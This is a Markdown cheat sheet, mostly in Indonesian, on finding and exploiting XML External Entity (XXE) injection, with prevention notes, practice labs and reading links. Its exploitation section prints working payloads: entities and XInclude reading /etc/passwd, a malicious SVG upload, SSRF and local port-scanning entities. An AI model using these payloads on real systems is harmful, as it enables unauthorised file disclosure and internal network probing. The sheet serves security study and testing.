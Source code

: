 # XXE :kiss:

## Detection
- Yang umum
  - XML file upload
  - XML input field
  - XML based API's (SOAP)
  - XML based files (RSS, SVG)
- Tidak Umum
  - MS Office files (docs, xlsx, etc.)
  - SAML-based SSO
  - VoiceXML in IVR systems
  - Online Map Editors using KML
- XML tag injection
  ```
  ' " < > &
  ```
 
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://XXX.XXX.XXX.XXX”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - *Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses*. Sangat manjur jika menggunakan Burp Collaborator.
  

  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)

## Prevention
  - Disable DTD
  - Disable entity saja
  - Dissable XInclude
  
## Tips and Trics
  - Cara cepat menemukan XML endpoint adalah automasi
  - Gunakan Burp Collaborator untuk detect blind XXE atau, gunakan remote server untuk mendeteksi blind XEE
  - [xxeserve](https://github.com/joernchen/xxeserve), burpcollaborator alternatif
  - Gunakan webrick sebagai simple server
  - Cari API endpoint
  - Umumnya web request xml menggunakan `Content-Type: application/x-www-form-urlencoded`, modifikasi menjadi `text/xml` atau `application/xml`lalu analisa responnya

## Lab
  - [Portswigger Web Security Academy - XXE injection](https://portswigger.net/web-security/xxe)
  - [Vulnhub - XXE Lab: 1](https://www.vulnhub.com/entry/xxe-lab-1,254/)
  - [Play XML Entities](https://pentesterlab.com/exercises/play_xxe/course)

## Online Resource
  - [Blind XXE - Hunting in the Dark](https://blog.zsec.uk/blind-xxe-learning/)
  - [XML External Entities ft. JohnHammond](https://www.youtube.com/watch?v=gjm6VHZa_8s&t=497s)
  - [From blind XXE to root-level file read access](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)
  - [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)
  - [Identifying Xml eXternal Entity vulnerability (XXE)](https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)
  - [List of XML markup languages](https://en.wikipedia.org/wiki/List_of_XML_markup_languages)
  - [Finding and Exploiting XXE – XML External Entities Injection](https://resources.infosecinstitute.com/finding-and-exploiting-xxe-xml-external-entities-injection/#gref)
  - [Generic XXE Detection](https://christian-schneider.net/GenericXxeDetection.html)
  - [Advice From A Researcher: Hunting XXE For Fun and Profit](https://www.bugcrowd.com/blog/advice-from-a-bug-hunter-xxe/)
  - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) - XXE Injection

